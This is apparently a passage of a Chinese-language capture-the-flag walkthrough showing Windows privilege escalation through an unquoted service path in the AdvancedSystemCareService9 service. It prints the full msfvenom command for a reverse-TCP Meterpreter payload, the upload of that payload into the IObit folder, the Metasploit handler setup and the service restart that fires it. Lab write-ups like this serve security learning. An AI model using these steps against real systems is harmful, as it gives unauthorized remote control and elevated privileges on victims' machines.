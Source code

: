 我注意到`AdvancedSystemCareService9`服务的`CanRestart`配置被设置为 True，并且显示有一个*未引用的服务路径漏洞*。我对这种漏洞不太熟悉，所以我查了一下，偶然看到一个指南( [Chandel，2021](https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/) )讨论如何利用它。

事实证明，通用的*未引用的服务路径漏洞*相当容易被利用；这和 DLL 搜索命令劫持非常相似( [ATT & CK 框架，n.d.](https://attack.mitre.org/techniques/T1574/001/) )。基本思想是 Windows API 假设服务可执行文件路径不包含任何空格( [Chandel，2021](https://attack.mitre.org/techniques/T1574/001/) )。如果存在文件空间，则可以“游戏”加载服务可执行文件的搜索顺序，并加载有效载荷而不是预期的服务([同上](https://attack.mitre.org/techniques/T1574/001/))。

为了演示这一点，我将使用`msfvenom`来生成一个反向的 Meterpreter 会话:

```
**└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attackbox ip> LPORT=4445 -f exe -o Advanced.exe**
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: Advanced.exe
```

上传到正确的路径:

```
**meterpreter > upload ~/steelmountain/Advanced.exe “C:\\Program Files (x86)\\IObit\\Advanced.exe”**
[*] uploading : ~/steelmountain/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced.exe
[*] Uploaded 7.00 KiB of 7.00 KiB (100.0%): ~/steelmountain/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced.exe
[*] uploaded : ~/steelmountain/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced.exe
```

然后打开另一个 Metasploit 会话来侦听 Meterpreter 会话呼叫总部:

```
**msf6 > use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp
**msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp**
PAYLOAD => windows/x64/meterpreter/reverse_tcp
**msf6 exploit(multi/handler) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(multi/handler) > set LPORT 4445**
LPORT => 4445
**msf6 exploit(multi/handler) > exploit**[*] Started reverse TCP handler on <attackbox ip>:4445
```

最后，重启`AdvancedSystemCareService9`服务:

```
**meterpreter > shell**
Process 812 created.
Channel 7 created.
Microsoft Windows [Version 6.3.9600]
© 2013 Microsoft Corporation. All rights reserved.**C:\Users\bill\Desktop>net stop AdvancedSystemCareService9**
net stop AdvancedSystemCareService9
.
The Advanced SystemCare Service 9 service was stopped successfully.**C:\Users\bill\Desktop>net start AdvancedSystemCareService9**
net start AdvancedSystemCareService9
```
